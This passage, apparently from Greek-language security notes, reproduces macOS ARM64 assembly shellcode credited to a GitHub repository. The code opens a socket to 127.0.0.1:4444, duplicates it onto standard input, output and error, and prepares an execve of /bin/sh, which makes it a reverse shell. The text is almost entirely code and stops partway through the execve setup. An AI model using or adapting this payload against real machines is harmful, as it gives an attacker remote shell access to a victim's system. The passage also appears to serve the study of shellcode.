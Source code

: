 Από [https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/reverseshell.s](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/reverseshell.s), revshell σε **127.0.0.1:4444**
```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
// s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
mov  x16, #97
lsr  x1, x16, #6
lsl  x0, x1, #1
mov  x2, xzr
svc  #0x1337

// save s
mvn  x3, x0

call_connect:
/*
* connect(s, &sockaddr, 0x10)
*
* struct sockaddr_in {
*     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
*     sa_family_t     sin_family;  // AF_INET = 2
*     in_port_t       sin_port;    // 4444 = 0x115C
*     struct  in_addr sin_addr;    // 127.0.0.1 (4 bytes)
*     char            sin_zero[8]; // Don't care
* };
*/
mov  x1, #0x0210
movk x1, #0x5C11, lsl #16
movk x1, #0x007F, lsl #32
movk x1, #0x0100, lsl #48
str  x1, [sp, #-8]
mov  x2, #8
sub  x1, sp, x2
mov  x2, #16
mov  x16, #98
svc  #0x1337

lsr  x2, x2, #2

call_dup:
// dup(s, 2) -> dup(s, 1) -> dup(s, 0)
mvn  x0, x3
lsr  x2, x2, #1
mov  x1, x2
mov  x16, #90
svc  #0x1337
mov  x10, xzr
cmp  x10, x2
bne  call_dup

call_execve:
// execve("/bin/sh", 0, 0)
mov  x1, #0x622F
movk x1, #0x6E69, lsl #16
movk x1, #0x732F, lsl #32
movk x1, #0x68, lsl #48
str  x1, [sp, #-8]
mov	 x1, #8
sub  x0, sp, x1
```